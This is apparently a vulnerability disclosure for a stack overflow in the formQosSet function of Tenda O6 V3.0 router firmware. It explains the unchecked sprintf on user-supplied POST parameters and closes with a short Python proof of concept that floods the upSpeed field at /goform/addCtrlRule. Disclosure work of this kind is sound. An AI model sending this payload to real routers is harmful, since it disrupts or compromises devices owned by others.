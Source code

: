 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
In the O6 V3.0 firmware version V1.0.0.7(2054), there is a stack overflow vulnerability in the `formQosSet` function. Specifically, the variables `Var`, `v3`, `v4`, `v5`, and `v6` receive their values from user-controlled POST request parameters, namely `remark`, `ipRange`, `upSpeed`, `downSpeed`, and `enable`. The function contains a call to `sprintf` that formats these variables into the `v18` buffer as follows:
`sprintf(v18, "%d;%s;%s;%s;%s;0;0;0;1;%s", v8 + 1, v6, v3, v4, v5, Var);`
Since the length of the `remark`, `ipRange`, `upSpeed`, `downSpeed`, and `enable` parameters is not validated, it is possible for these user-provided values to exceed the capacity of the `v18` array. This can lead to a buffer overflow, which is a significant security vulnerability.
![Vulnerability Function1](./20240805173254.png)


## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/addCtrlRule"
payload = b"ab"*3000

data = {"upSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[Pasted image 20240805163853.png]]
